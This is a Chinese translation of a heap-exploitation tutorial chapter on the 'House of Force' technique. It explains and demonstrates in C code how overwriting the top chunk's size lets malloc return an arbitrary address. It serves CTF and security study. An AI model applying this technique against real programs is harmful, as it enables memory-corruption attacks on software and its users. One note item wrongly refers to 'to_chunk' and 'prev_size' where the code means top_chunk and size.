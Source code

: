```yaml
---
title: Heap Exploitation系列翻译-15 House of Force
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```

# House of Force

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

与'House of Lore'类似, 这项攻击重点在于从'malloc'返回一个任意的指针. 伪造堆块攻击讨论的是fastbins的情况而'House of Lore'讨论的则是small bin的情况. 在这里'House of Force'则是利用了'top chunk'. topmost chunk 也被称作 'wilderness', 它以堆的末尾作为边界(比如, 它是堆的最大地址)并且不会出现在任何bin链中. 它符合相同的堆块结构格式.

这项攻击技术假定在top chunk的首部存在溢出. 它的`size`可以被修改为一个非常大的值(在本例中是`-1`), 这能够确保所有初始申请将会使用top chunk来满足要求, 而非依赖于`mmap`. 在64位系统, `-1`即是`0xFFFFFFFFFFFFFFFF`, 一个这样大小的堆块可以覆盖程序的整个内存空间. 让我们假定一下, 攻击者希望'malloc'返回地址'P'. 现在, 任何大小为`&top_chunk` - `P`的malloc调用都会使用top chunk来满足. 要注意, `P`可以在`top_chunk`之前或之后. 如果是在前面, 结果就得是一个很大的整数(因为size是无符号的). 但它仍旧是小于`-1`的. 在发生完整数溢出并且malloc使用top chunk很好的满足申请需求后, 此刻, top chunk就会指向`P`并且之后的任何申请都会直接返回`P`!

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_force.c)):

```c
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

'malloc' 返回一个指向`victim`的地址

以下几样需要我们注意:

1. 当计算`to_chunk`的准确指针时, 要将prev_size的三个最低位清零, 以获得准确的大小.
2. 当计算requestSize, 需要算进一个额外的缓冲区, 这只是用于抵消分配堆块时进行的四舍五入. 顺便一提, 在这种情况下, malloc 会返回一个比申请大小多8字节的堆块. 要注意, 这是与机器相关的.
3. `victim`可以是任意地址(堆,栈,bss段等地址)
